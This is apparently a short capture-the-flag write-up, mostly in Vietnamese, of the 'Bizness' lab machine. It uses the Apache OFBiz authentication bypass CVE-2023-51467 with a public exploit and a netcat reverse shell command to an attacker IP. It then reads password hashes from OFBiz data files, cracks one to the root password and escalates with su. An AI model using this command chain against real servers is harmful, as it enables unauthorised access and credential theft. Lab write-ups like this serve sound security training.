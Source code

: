 # bizness

- enumerate

tìm thấy p22, 80 và 443

![https://lh7-us.googleusercontent.com/HLG78cE3URTYiZrNSDZ8vfVoJZbydsRrXDQDhJoTANkLUYjYMkkCboT6b2MyScDDLMKhRr7SosagzT5TJCzi67dJ4rY_8Sgj-Z8wLZKhApC7dleDO244hkRxQYO9lfa1z7G48x339s1-](https://lh7-us.googleusercontent.com/HLG78cE3URTYiZrNSDZ8vfVoJZbydsRrXDQDhJoTANkLUYjYMkkCboT6b2MyScDDLMKhRr7SosagzT5TJCzi67dJ4rY_8Sgj-Z8wLZKhApC7dleDO244hkRxQYO9lfa1z7G48x339s1-)

add /etc/hosts

ko  tìm thấy subdomain

![https://lh7-us.googleusercontent.com/0_oCphj8x3axP9xVGoy29o4CZ13DEy12o8Fa942d29rfFNwVtPxHKkMIivrqigA0FlkHDpjjv9H2Uq5Dtz-R86yhel6HS9EW4rZch_NlmpZWmM6AnLUSBbpU0ftRDTJFgWUSUh1LXB3q](https://lh7-us.googleusercontent.com/0_oCphj8x3axP9xVGoy29o4CZ13DEy12o8Fa942d29rfFNwVtPxHKkMIivrqigA0FlkHDpjjv9H2Uq5Dtz-R86yhel6HS9EW4rZch_NlmpZWmM6AnLUSBbpU0ftRDTJFgWUSUh1LXB3q)

tìm thấy các path ẩn

![https://lh7-us.googleusercontent.com/eQodtclUSEw6rYOKUKW7MS8K5XyRgHlMLyADj2BAdVcFfeJnUizVQOus94UeAqQY41syS-YPDAKd_HKL-_wr4PmN3Vx6V2z2hieZWazx1jZgF-iyZOV0WhOzNZN3DsJNfJ6hZH6mtsrw](https://lh7-us.googleusercontent.com/eQodtclUSEw6rYOKUKW7MS8K5XyRgHlMLyADj2BAdVcFfeJnUizVQOus94UeAqQY41syS-YPDAKd_HKL-_wr4PmN3Vx6V2z2hieZWazx1jZgF-iyZOV0WhOzNZN3DsJNfJ6hZH6mtsrw)

![https://lh7-us.googleusercontent.com/g-krgQh0dr-toekWBniDTK-v2wnsKGWSXFIO39jQWdl9hDdUlmDd1qSLYbmbC5VMEFrBKzz2ss8Ylr47_BoVdchh02ZS0rqp4jlUzEvo_woY4jDT_0FTPQYJY5XI19UzNawxxv8Z-sp1](https://lh7-us.googleusercontent.com/g-krgQh0dr-toekWBniDTK-v2wnsKGWSXFIO39jQWdl9hDdUlmDd1qSLYbmbC5VMEFrBKzz2ss8Ylr47_BoVdchh02ZS0rqp4jlUzEvo_woY4jDT_0FTPQYJY5XI19UzNawxxv8Z-sp1)

thử truy cập /ebay -> yêu cầu login

![https://lh7-us.googleusercontent.com/2mGWsxqWcJSXtH8FKcB5QNr_lNdwgD0iSDQKxpcnwumgyrOSsY04jVMx1EbUK8elfl2Hv3Gwlj71EH_lnIt920Amtj3dp4pA-5bJhHys5Rtj1ARIpBtuvy6ibh5ZYA8Szhv7b5kKwIO9](https://lh7-us.googleusercontent.com/2mGWsxqWcJSXtH8FKcB5QNr_lNdwgD0iSDQKxpcnwumgyrOSsY04jVMx1EbUK8elfl2Hv3Gwlj71EH_lnIt920Amtj3dp4pA-5bJhHys5Rtj1ARIpBtuvy6ibh5ZYA8Szhv7b5kKwIO9)

search ofbiz 18.12 exploit

CVE-2023–51467. It states, “The vulnerability permits attackers to circumvent authentication processes, enabling them to remotely execute arbitrary code”

[https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass)

python3 exploit.py - url https://bizness.htb/ - cmd 'nc -e /bin/bash 10.10.14.15 4444'

netcat -> user ofbiz

![https://lh7-us.googleusercontent.com/YDowU5CAkeh4AMxY7bwIkGQx2Dl07EnKNNLuJRI6JwWgAI5e3zQ-hj3-zJx453obsK-u_jHl-REaXZWEf4ObcUb2PQ_C3fjggdl5PD76yuhbFPs5l92akPsfdMp2xxc5L_4E6fraflSZ](https://lh7-us.googleusercontent.com/YDowU5CAkeh4AMxY7bwIkGQx2Dl07EnKNNLuJRI6JwWgAI5e3zQ-hj3-zJx453obsK-u_jHl-REaXZWEf4ObcUb2PQ_C3fjggdl5PD76yuhbFPs5l92akPsfdMp2xxc5L_4E6fraflSZ)

upgrade shell

script /dev/null -qc /bin/bash

stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;

tìm thấy pw trong AdminUserLoginData.xml

cat /opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml

{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a nhưng ko crack đc

và

cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat

$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I

sử dụng tool để crack [duck-sec/Apache-OFBiz-SHA1-Cracker: Cracks Apache OFBiz SHA1 hashes. Just something you might want to do.... (github.com)](https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker?source=post_page-----b5bed59a7598--------------------------------)

python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' --wordlist /home/kali/Documents/wordlist/ry.txt

monkeybizness

lên root bằng lệnh su

lấy flag root

![https://lh7-us.googleusercontent.com/ch29ONMmI9kj3IoZEdoWW0O7tweMD-_QZqRk6YuSweXUHiy3v3f4aVNLLy3vQKBALvmwYKOAMxsVhTMRSbHWFwWFEwT8my_x_tdaaqUPSnaYowqJyqkZZCnwU9vyRWQbyAzbs1pLWRqq](https://lh7-us.googleusercontent.com/ch29ONMmI9kj3IoZEdoWW0O7tweMD-_QZqRk6YuSweXUHiy3v3f4aVNLLy3vQKBALvmwYKOAMxsVhTMRSbHWFwWFEwT8my_x_tdaaqUPSnaYowqJyqkZZCnwU9vyRWQbyAzbs1pLWRqq)